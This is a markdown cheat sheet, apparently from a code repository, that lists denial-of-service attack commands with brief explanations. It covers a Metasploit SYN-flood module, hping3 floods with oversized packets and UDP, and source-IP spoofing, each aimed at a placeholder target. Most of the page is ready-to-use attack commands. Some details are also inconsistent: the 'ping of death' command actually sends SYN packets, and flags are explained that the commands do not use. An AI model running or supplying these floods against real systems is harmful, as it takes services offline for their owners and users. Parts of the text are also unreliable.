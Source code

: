 ## DoS cheat sheet

### SYN Flooding
SYN flooding takes advantage of a flaw with regard to how most hosts implement the TCP three-way handshake. This attack occurs when the intruder sends unlimited SYN packets (requests) to the host system. The process of transmitting such packets is faster than the system can handle. Normally, the connection establishes with the TCP three-way handshake, and the host keeps track of the partially open connections while waiting in a listening queue for response ACK packets.

#### Using Metasploit

```sh
msfconsole
use auxiliary/dos/tcp/synflood
```

### PoD attack
The attacker tries to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.

#### Using hping3

```sh
hping3 --d 65538 -S -p 21 --flood [Target IP]
```
-d: Specifies data size.

-S: Sets the SYN flag.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

### Spoof source IP

#### Using hping3

```sh
hping3 -S [Target IP] -a [IP Spoofed]
```
-S: Sets the SYN flag.

-a: Spoofs the IP address.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.


### UDP application layer flood attack

#### Using hping3

```sh
hping3 -2 -p 139 --flood [Target IP]
```
-2: Specifies the UDP mode.

-p: Specifies the destination port.

--flood: Sends a huge number of packets.

